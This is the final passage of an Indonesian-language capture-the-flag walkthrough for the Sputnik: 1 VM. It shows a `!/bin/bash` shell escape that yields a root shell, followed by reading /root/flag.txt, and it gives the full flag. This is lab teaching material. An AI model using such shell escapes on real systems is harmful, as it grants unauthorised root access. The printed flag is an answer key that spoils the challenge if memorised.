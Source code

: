 dan yap, kita sudah mendapatkan root. Sekarang kita coba untuk menjadi root dengan cara `!/bin/bash`, itu adalah command untuk mendapatkan bash shell dari root. Terkadang kita hanya menggunakannya untuk mendapatkan bash dari user, sekarang bisa kita manfaatkan untuk mendapatkan bash dari root.

```bash
!/bin/bash
root@sputnik:/# 
```

oke sudah dapat root, sekarang kita coba untuk cek flagnya di `/root`, biasanya file flag ada di dalam folder tersebut.

```bash
root@sputnik:/# cd /root
cd /root
root@sputnik:~# ls
flag.txt
root@sputnik:~# cat flag.txt
 _________________________________________
/ Congratulations!                        \
|                                         |
| You did it!                             |
|                                         |
| Thank you for trying out this challenge |
| and hope that you learn a thing or two. |
|                                         |
| Check the flag below.                   |
|                                         |
| flag_is{w1th_gr34t_p0w3r_c0m35_w1th_gr3 |
| 4t_r3sp0ns1b1l1ty}                      |
|                                         |
| Hope you enjoy solving this challenge.  |
| :D                                      |
|                                         |
\ - ameer (from hackstreetboys)           /
 -----------------------------------------
      \                    / \  //\
       \    |\___/|      /   \//  \\
            /0  0  \__  /    //  | \ \    
           /     /  \/_/    //   |  \  \  
           @_^_@'/   \/_   //    |   \   \ 
           //_^_/     \/_ //     |    \    \
        ( //) |        \///      |     \     \
      ( / /) _|_ /   )  //       |      \     _\
    ( // /) '/,_ _ _/  ( ; -.    |    _ _\.-~        .-~~~^-.
  (( / / )) ,-{        _      `-.|.-~-.           .~         `.
 (( // / ))  '/\      /                 ~-. _ .-~      .-~^-.  \
 (( /// ))      `.   {            }                   /      \  \
  (( / ))     .----~-.\        \-'                 .~         \  `. \^-.
             ///.----..>        \             _ -~             `.  ^-`  ^-_
               ///-._ _ _ _ _ _ _}^ - - - - ~                     ~-- ,.-~
                                                                  /.-~
```

ya, akhirnya kita dapat flagnya, yaitu `flag_is{w1th_gr34t_p0w3r_c0m35_w1th_gr34t_r3sp0ns1b1l1ty}`.

Akhirnya kita sudah mendapatkan user dan root flag pada VM Sputnik: 1 ini. Terima kasih sudah membaca walkthrough ini, semoga bermanfaat.